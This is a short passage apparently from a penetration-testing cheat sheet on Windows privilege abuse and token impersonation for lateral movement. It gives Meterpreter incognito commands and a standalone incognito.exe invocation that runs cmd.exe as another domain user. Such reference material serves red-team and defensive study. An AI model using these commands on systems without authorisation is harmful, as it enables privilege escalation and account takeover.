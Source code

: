  #lateral-movement

### Windows Privilege Abuse
```bash
whoami /priv
```
Privilege abuse: https://github.com/gtworek/Priv2Admin
### Token Impersonation
Delegation and Impersonate Token Impersonation
```meterpreter
load incognito
list_tokens -u
impersonate_token <DOMAIN>\\<USER>
```
Standalone Incognito binary
- GitHub: https://github.com/FSecureLABS/incognito/blob/394545ffb844afcc18e798737cbd070ff3a4eb29/incognito.exe
```powershell
incognito.exe list_token -u
incognito.exe execute -c "domain\user" C:\\System32\cmd.exe
```